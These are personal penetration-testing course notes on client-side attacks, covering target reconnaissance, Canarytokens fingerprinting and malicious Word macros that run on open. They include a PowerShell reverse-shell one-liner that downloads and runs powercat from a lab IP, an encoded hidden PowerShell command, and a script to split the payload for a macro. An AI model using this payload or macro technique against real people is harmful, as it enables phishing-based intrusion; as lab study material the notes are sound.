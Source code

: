 # Client Side Attacks

## 12.1.1 Information Gathering
Analyze metadate on CORP docs to find info on targets.
Google dork to find the docs: site:megacorpone.com  filetype:pdf

Can use theHarvester, for more intensive OSINT search : https://github.com/laramies/theHarvester

exiftool -a -u brochure.pdf

gobuster dir -u 192.168.205.197 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt -x .pdf -t 20 

## 12.1.2
https://canarytokens.com/nest/ : website to generate tokens we can embed in email, wherever, to send to our targets.
I used this during TCM PEH course as well.
Use the token to Client/Device Fingerprint our target.

Create token, choose Web bug / URL token.  Enter https://example.com as webhook URL, then FINGERPRINTING as comment.

## 12.12 Exploiting Microsoft Office - Word Macros

Macros in [_Visual Basic for Applications_](https://docs.microsoft.com/en-us/office/vba/api/overview/) (VBA) provide full access to [_ActiveX objects_](https://en.wikipedia.org/wiki/ActiveX) and the Windows Script Host, similar to JavaScript in HTML applications.
To use Macros, we need to use .doc not .docx, as .docx requires a containing template.

MS Word -> View -> Macros ->  Name, Mymacro -> Create.
To get the MACRO to auto execute, when the doc open , we add AutoOpen() and Document_Open()
Note: there is a 255-character limit for literal strings, so we need to split up base64-encoded PS commands into multiple strings, and then concatenate.

```
# Powershell RevShell that is getting encoded : 
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.158/powercat.ps1');powercat -c 192.168.45.158 -p 4444 -e powershell
```

python script to split our base64 encoded powershell into multiple strings easily..

```python
str = "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGUAdwA..."

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```

macro shell
